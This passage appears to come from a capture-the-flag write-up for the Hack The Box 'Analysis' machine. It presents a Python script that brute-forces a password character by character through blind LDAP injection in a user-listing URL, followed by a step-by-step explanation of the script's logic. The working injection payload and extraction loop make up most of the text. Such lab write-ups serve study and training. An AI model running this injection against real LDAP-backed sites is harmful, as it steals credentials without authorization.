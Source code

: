 ```bash
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)
if __name__ == "__main__":
    main()
```
<br/><br/>
- **Logic**
    1. Base URL definition: The base URL is defined as "[http://internal.analysis.htb/users/list.php?name=*](http://internal.analysis.htb/users/list.php?name=*))(%26(objectClass=user)(description={found_char}{FUZZ} *)". This URL includes a placeholder {FUZZ} that will be replaced by each character in the character file and another placeholder {found_char} that will be replaced with the characters found during the fuzzing process.
    <br/><br/>
    2. Reading the character file: The character file defined in charset_path is opened and iterated over each line of the file. Each line contains a character that will be used to make requests to the URL.
    <br/><br/>
    3. URL Modification: For each character in the character file, the character is encoded and the {FUZZ} placeholder in the base URL is replaced with this encoded character
    <br/><br/>
    4. Sending HTTP Requests: An HTTP GET request is sent to the modified URL for each character in the character file.
    <br/><br/>
    5. **Response verification: It is checked if the response contains the string "technician" and if the response status code is 200 (OK). If both conditions are met, the character is considered part of the password.**
    <br/><br/>
    6. Update found password: If a character is found that appears to be part of the password, it is added to the variable found_chars, which contains the password found so far.
    <br/><br/>
    7. Printing the password found: The password found so far is printed each time a new character is found that appears to be part of the password.
    <br/><br/>
